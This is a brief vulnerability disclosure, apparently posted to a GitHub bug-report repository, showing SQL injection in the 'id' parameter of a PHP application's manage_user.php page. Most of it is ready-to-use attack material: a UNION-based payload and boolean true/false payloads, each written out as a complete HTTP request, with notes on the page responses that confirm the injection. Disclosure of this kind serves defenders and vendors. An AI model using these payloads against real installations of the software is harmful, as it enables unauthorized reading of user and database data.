 BUG_Author:yuan

Vulnerability File: /aqpg/users/user/manage_user.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,concat(0x35363738,0x41424344),null,null,null,null,null,null-- -

```
GET /aqpg/users/user/manage_user.php?id=-1%27%20union%20all%20select%20null,null,null,concat(0x35363738,0x41424344),null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=c1ar1p7pfa6fn4k57t6vf5f0ag
Connection: close
```

union query success

![image](https://github.com/gxu-yuan/bug_report/blob/main/sql1.png)

Payload2:id=1' and 'a'='a

```
GET /aqpg/users/user/manage_user.php?id=1%27%20and%20%27a%27=%27a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=c1ar1p7pfa6fn4k57t6vf5f0ag
Connection: close
```

The page is echoed normally

![image](https://github.com/gxu-yuan/bug_report/blob/main/sql2.png)

Payload3:id=1' and 'a'='b

```
GET /aqpg/users/user/manage_user.php?id=1%27%20and%20%27a%27=%27b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=c1ar1p7pfa6fn4k57t6vf5f0ag
Connection: close
```

page echo error

![image](https://github.com/gxu-yuan/bug_report/blob/main/sql3.png)
